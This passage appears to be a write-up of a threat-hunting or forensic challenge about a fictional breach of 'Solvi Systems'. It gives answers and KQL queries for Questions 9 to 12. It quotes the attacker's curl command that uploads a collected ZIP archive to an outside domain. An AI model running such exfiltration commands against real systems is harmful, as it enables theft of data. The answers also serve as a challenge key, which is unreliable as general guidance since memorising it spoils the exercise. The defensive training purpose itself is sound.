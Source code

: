 ```
"C:\Program Files\WindowsApps\MicrosoftTeams_22183.300.1431.9295_x64__8wekyb3d8bbwe\msteamsupdate.exe" -CheckUpdate -AppSessionGUID 
curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload
"C:\Windows\SystemApps\Microsoft.MicrosoftEdge_8wekyb3d8bbwe\microsoftedgecp.exe" SCODEF:2500 CREDAT:206085 EDGEHOST  /prefetch:6
C:\Windows\system32\svchost.exe -k wusvcs -p -s WaaSMedicSvc
```

### Question 9

After collecting the sensentive data, the adversary compressed it and moved it to another location.

**What is the name of the archive file containing the copied documents?**

> `CollectedData.zip`
> 

### Question 10

**The next day the data was exfiltrated using what command?**

> `curl -F 'file=@C:\DataExfil\CollectedData.zip' https://api.eco-awareness-update.net/upload`
> 

### Question 11

**How many accounts were used by the threat actor to exfiltrate sensitive information from Solvi Systems?**

> `3`
> 

```sql
ProcessEvents
| where process_commandline contains "curl -F"
```

### Question 12

The adversaries appeared to be highly invested in learning more about Solvi's software development process. Perhaps they want to be better understand Solvi's code bases, or figure out how to inject their own malicious code in Solvi's software.

Around the same time the adversaries stole data from the network share about the software lifecycle, they were also seen accessing sensitive documents about the software lifecycle.

**The threat actors were observed reading an "internal process" document from an internal portal called `____.solvisystems.com`**

> `devportal`
> 

```sql
InboundNetworkEvents
| where url has "internal"
```
